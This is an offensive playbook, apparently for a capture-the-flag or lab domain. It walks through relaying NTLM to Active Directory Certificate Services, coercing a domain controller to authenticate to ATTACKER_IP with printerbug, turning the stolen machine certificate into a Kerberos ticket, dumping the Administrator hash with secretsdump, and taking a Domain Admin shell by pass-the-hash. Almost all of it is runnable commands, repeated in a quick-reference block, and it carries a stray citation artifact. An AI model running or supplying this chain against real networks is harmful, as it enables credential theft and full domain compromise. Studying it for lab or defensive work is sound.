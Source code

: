# ADCS Relay → Machine Cert → PKINIT TGT → DC Compromise

**Scenario:** Active Directory Certificate Services (ADCS) misconfigurations allow NTLM relay to request machine certificates. With these, we obtain Kerberos TGTs (via PKINIT) and escalate to Domain Admin.

---

## TL;DR Flow
1) **Run ntlmrelayx** against ADCS web enrollment (`certsrv`).  
2) **Trigger coercion** (printerbug, PetitPotam, etc.) from DC to attacker → relay to ADCS.  
3) **Obtain .pfx cert** for `DC01$`.  
4) **Use PKINITtools** → `gettgtpkinit.py` → craft Kerberos TGT.  
5) **Export ccach** → confirm ticket with `klist`.  
6) **Use secretsdump with -k -no-pass** to dump Administrator hash.  
7) **Evil-WinRM** with PTH to fully compromise.  

References: impacket-ntlmrelayx, printerbug.py, PKINITtools, oscrypto, secretsdump, evil-winrm. 【42†playbook2.md】

---

## Setup & OPSEC
- Ensure no local conflicts on ports 80/445/88.  
- Work from venv for PKINITtools.  
- Have a staging dir `/loot/adcs`.  

---

## NTLM Relay → ADCS Enrollment
### ntlmrelayx with ADCS support
```bash
sudo impacket-ntlmrelayx -t http://TARGET/certsrv/certfnsh.asp \
  --adcs -smb2support --template KerberosAuthentication
```
This sets up SMB + HTTP listeners and targets the ADCS web endpoint.

### Coerce DC Authentication
```bash
# Grab coercion script
wget https://raw.githubusercontent.com/dirkjanm/krbrelayx/master/printerbug.py

# Trigger auth from DC01
python3 printerbug.py DOMAIN/user:pass@DC01_IP ATTACKER_IP
```
If successful, `ntlmrelayx` issues a certificate and drops `DC01$.pfx`.

---

## Convert Certificate → Kerberos TGT
### PKINITtools
```bash
git clone https://github.com/dirkjanm/PKINITtools.git && cd PKINITtools
python3 -m venv .venv && source .venv/bin/activate
pip3 install -r requirements.txt
pip3 install -I git+https://github.com/wbond/oscrypto.git
```

### Request TGT
```bash
python3 gettgtpkinit.py -cert-pfx ../DC01$.pfx \
  -dc-ip DC01_IP 'domain.local/dc01$' /tmp/dc.ccache
```
This generates a valid Kerberos TGT and saves it.

---

## Kerberos Environment Setup
### 3.1 Export Ticket
```bash
export KRB5CCNAME=/tmp/dc.ccache
klist
```
Expect to see `krbtgt/domain.local`. 

### Kerberos Packages
```bash
sudo apt-get install krb5-user -y
echo "DC01_IP dc01.domain.local" | sudo tee -a /etc/hosts
sudo nano /etc/krb5.conf
# set default_realm = DOMAIN.LOCAL and kdc = dc01.domain.local
```

---

## Exploitation
### Dump Administrator Hash
```bash
impacket-secretsdump -k -no-pass -dc-ip DC01_IP \
  -just-dc-user Administrator 'DOMAIN/DC01$'@DC01.DOMAIN.LOCAL
```
Example output shows Administrator NTLM hash.

### Pass-the-Hash → WinRM
```bash
evil-winrm -i dc01.domain.local -u Administrator -H <NTLM_HASH>
```
Shell as Domain Admin.

### Grab Flag
```powershell
type C:\Users\Administrator\Desktop\flag.txt
```

---

## Quick Reference — Commands
```bash
# Relay setup
impacket-ntlmrelayx -t http://DC/certsrv/certfnsh.asp --adcs -smb2support --template KerberosAuthentication

# Coercion
python3 printerbug.py DOMAIN/user:pass@DC_IP ATTACKER_IP

# PKINIT
python3 gettgtpkinit.py -cert-pfx ../DC01$.pfx -dc-ip DC_IP 'domain.local/dc01$' /tmp/dc.ccache
export KRB5CCNAME=/tmp/dc.ccache
klist

# Dump secrets
impacket-secretsdump -k -no-pass -dc-ip DC_IP -just-dc-user Administrator 'DOMAIN/DC01$'@DC01.DOMAIN.LOCAL

# WinRM
evil-winrm -i dc01.domain.local -u Administrator -H <NTLM_HASH>
```

---

## Tool Links
- impacket-ntlmrelayx — https://github.com/fortra/impacket  
- printerbug — https://github.com/dirkjanm/krbrelayx  
- PKINITtools — https://github.com/dirkjanm/PKINITtools  
- oscrypto fix — https://github.com/wbond/oscrypto  
- evil-winrm — https://github.com/Hackplayers/evil-winrm  
